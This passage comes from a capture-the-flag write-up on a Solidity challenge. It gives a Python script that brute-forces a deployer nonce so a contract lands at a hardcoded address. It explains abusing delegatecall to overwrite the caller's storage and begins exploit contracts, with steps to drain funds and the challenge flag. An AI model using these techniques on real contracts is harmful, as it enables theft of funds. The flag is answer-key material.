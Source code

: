 ```solidity
    require(success, "Denied entry!");
    require(abi.decode(retValue, (bool)), "Cannot unlock gate!");
}
```

And here, there isn't actually any function called "unlockgate()" in the
contract (the contracts for treasureLocations were not released). Eventually, we
need to deploy our own contract to implement this function.

But how do we deploy our own contract to the hardcoded addresses? When
generating an address for a contract deployment using the `CREATE` opcode (not
`CREATE2`), the EVM takes into account the deployer's address and a nonce that
increments every time a contract is deployed. This address is thus deterministic
and can even be controlled partially by the attacker. We can write a script to
bruteforce a possible nonce value that will give us one of the contract's
addresses:

```python
import rlp
from sha3 import keccak_256

sender = bytes.fromhex("0x7cd3cB56F3DaE8825eF0ebA1916eE98D4bcb80E8"[2:])

desired = [
    "0xb3ccA2077c824C19bd689616b8399230057a5a1D", # coneyIsland
    "0xfba9b795E98591Be941BD41C57D2072Ada028B23", # pulauSemakau
    "0xb9d877eFF9430734d2C4653ed389FEB6DF5F3A36" # hindhede
]

desired = [d[2:].lower() for d in desired]

def gen_contract_addr(sender, nonce):
    return keccak_256(rlp.encode([sender, nonce])).hexdigest()[-40:]

for nonce in range(2, 2 ** 256):
    if gen_contract_addr(sender, nonce) in desired:
        print(nonce, gen_contract_addr(sender, nonce))
        break
```

From this, pulauSemakau's address seems to be manually set by the challenge to
be achievable within a small nonce (30-50). So we can repeatedly deploy
contracts until we deploy a contract at the required nonce value.

What can we do with the `unlockGate` call? Since it's being called with
`delegatecall`, the memory layout of the calling contract is inherited directly
by the callee. So, we can edit the `isLocationOpen` to directly set
`pulauSemakau` to true and get the flag.

Full exploit contracts:

```solidity
pragma solidity ^0.8.19;
import { Noncevigator, TravelFundvault } from "./Noncevigator.sol";

// 1. run solve.py to generate the correct nonce
// 2. deploy Exploit to get enough ether, and extract all funds
// 3. set wallet nonce to the value
// 4. deploy Unlocker at the desired address
// 5. from wallet, call startUnlockingGate("pulauSemakau")

// 46
// TISC{ReeN7r4NCY_4ND_deTerminI5TIc_aDDReSs}

contract Exploit {
Noncevigator public noncevigator;
TravelFundvault public travelFundvault;
```